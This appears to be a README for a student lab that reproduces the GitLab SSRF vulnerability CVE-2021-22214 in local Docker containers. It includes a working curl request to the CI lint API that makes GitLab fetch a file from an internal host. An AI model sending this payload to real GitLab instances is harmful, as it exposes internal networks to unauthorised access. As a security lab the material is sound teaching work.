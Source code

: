 # GitLab SSRF

This repository is a reproduction of [CVE-2021-22214](https://nvd.nist.gov/vuln/detail/CVE-2021-22214).

## CVE Details

### CVE-2021-22214

When requests to the internal network for webhooks are enabled, a server-side request forgery vulnerability in GitLab CE/EE affecting all versions starting from 10.5 was possible to exploit for an unauthenticated attacker even on a GitLab instance where registration is limited.

## Setting Up

For this reproduction, we will be using a vulnerable GitLab image, and running it using Docker Compose.

```sh
git clone https://github.com/CS4239-U6/gitlab-ssrf.git
cd gitlab-ssrf
docker-compose up
```

Two containers will be running - one will be the GitLab web server, and the other will be an internal NGINX server that's serving a static `.yml` file.
Our goal is to get the GitLab server to query for the internal `.yml` file, despite it being originally inaccessible to us.

When the GitLab container is fully up (which you can check by accessing `http://localhost:5000`), which can take quite long, you can run the following `curl` command to test it out:

```sh
curl --location --request POST 'http://localhost:5000/api/v4/ci/lint' \
--header 'Content-Type: application/json' \
--data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://nginx:80/test.tml" }' \
--show-error
```
